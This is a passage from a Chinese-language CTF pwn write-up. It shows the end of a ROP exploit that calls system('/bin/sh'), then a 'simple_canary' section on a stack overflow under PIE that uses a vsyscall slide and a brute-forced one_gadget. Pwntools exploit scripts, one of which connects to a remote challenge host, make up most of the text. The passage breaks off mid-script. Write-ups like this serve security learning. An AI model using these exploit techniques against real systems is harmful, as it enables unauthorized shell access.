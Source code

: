 ```
payload += str(p_rdi_r) + "\n0\n"
payload += str(bin_sh_address &amp; 0xffffffff) + "\n"
payload += str(bin_sh_address &gt;&gt; 32)+"\n"
payload += str(system_address &amp; 0xffffffff) + "\n"
payload += str(system_address &gt;&gt; 32) + "\n"
payload += str(start) + "\n0\n"

show(22)
log.success("libc address is `{``}`".format(hex(libc.address)))
p.sendlineafter("boy\n", "a"*(38 + 8 - 1))
p.sendlineafter("lo\n", payload)

# add(0x68)
# edit(0, "a", 112)
# p.sendlineafter("I love you so much\n", "a"*0x200)
# p.sendline("a"*112)

p.interactive()
```



## simple_canary

很明显的栈溢出漏洞，但是程序开启了`pie`，由于这里`GLIBC&lt;=2.23`因此这里可以使用`vsyscall`作为滑板指令，这里和`DASCTF 8`月赛类似，我们先来看一下`read`完毕之后的栈

[![](https://p0.ssl.qhimg.com/t01ac6012825c3eff42.png)](https://p0.ssl.qhimg.com/t01ac6012825c3eff42.png)

如果此时程序中存在后门的话，我们修改任意一个`elf`地址的低位指向后门函数，之后利用滑板指令滑到此处即可。但是该程序中并不存在后门。因此这里我采用的是覆写`libc_start_main+240`为`one_gadget`进行爆破。这种方式`1/(16*16*16)`的概率。

```
# encoding=utf-8
from pwn import *

file_path = "./pwn"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    gdb.attach(p, "b *$rebase(0x116e)")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

else:
    p = remote('8.131.246.36', 38989)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

''''
root@18491090a044:~/work# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL
```